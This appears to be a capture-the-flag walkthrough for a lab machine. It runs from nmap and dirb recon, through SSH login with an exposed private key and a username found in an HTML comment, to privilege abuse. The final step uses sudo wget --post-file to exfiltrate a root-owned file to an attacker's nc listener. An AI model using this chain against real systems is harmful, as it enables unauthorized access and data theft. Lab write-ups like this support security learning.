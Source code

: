 

IP= 10.10.124.163	:22,80
All ports scanned	:22,80


```
$ nmap -p- -T5 10.10.124.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 19:53 EST
Warning: 10.10.124.163 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.124.163
Host is up (0.17s latency).
Not shown: 65120 closed tcp ports (conn-refused), 413 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 876.28 seconds
```

```
$ dirb http://10.10.124.163/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan  1 20:58:41 2023
URL_BASE: http://10.10.124.163/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.124.163/ ----
+ http://10.10.124.163/index.html (CODE:200|SIZE:11374)                                                              
+ http://10.10.124.163/server-status (CODE:403|SIZE:278)                                                             
==> DIRECTORY: http://10.10.124.163/sitemap/ 

Entering directory: http://10.10.124.163/sitemap/ ----
==> DIRECTORY: http://10.10.124.163/sitemap/.ssh/

```
- site contains developement team information (potential users for ssh login)
- RSA ID found in /.ssh directory discovered with dirb

```
$ chmod 600 id_rsa
```

```
$ searchsploit OpenSSH
...
OpenSSH 7.2p2 - Username Enumeration
```

- Attempted to enumerate a list of usernames via Metasploit module and custom wordlist of discovered devs, but produced a bunch of false positives, so it is back to enumeration.

- Discovered JS comment in source page of default apache page that could be used as a username:

<!-- Jessie don't forget to udate the webiste -->

--------------------------------------------------

```bash
$ ssh -i id_rsa  jessie@10.10.239.158

Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
...
jessie@CorpOne:~$ cd Documents
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt
[REDACTED]
```

- Time to find the root flag.

- User has unrestricted access as far as sudo permissions go, but
we can see that the user has perms to use wget as root without a password. 

"wget is a utility for non-interactive download of files from the Web. It supports HTTP, HTTPS, and FTP protocols, as well as retrieval through HTTP proxies."

```
jessie@CorpOne:~$ cd /
jessie@CorpOne:/$ ls
bin  boot  cdrom  dev  etc  home  initrd.img  initrd.img.old  lib  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz
jessie@CorpOne:/$ cd root
-bash: cd: root: Permission denied
jessie@CorpOne:/$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

```
Victim Machine:

jessie@CorpOne:/$ sudo wget --post-file=root/root_flag.txt 10.2.1.180:4444
--2023-01-04 05:57:38--  http://10.2.1.180:4444/
Connecting to 10.2.1.180:4444... connected.
HTTP request sent, awaiting response... 

Local Machine:

$ nc -lvnp 444

listening on [any] 4444 ...
connect to [10.2.1.180] from (UNKNOWN) [10.10.239.158] 36248
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.2.1.180:4444
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

[REDACTED]
```
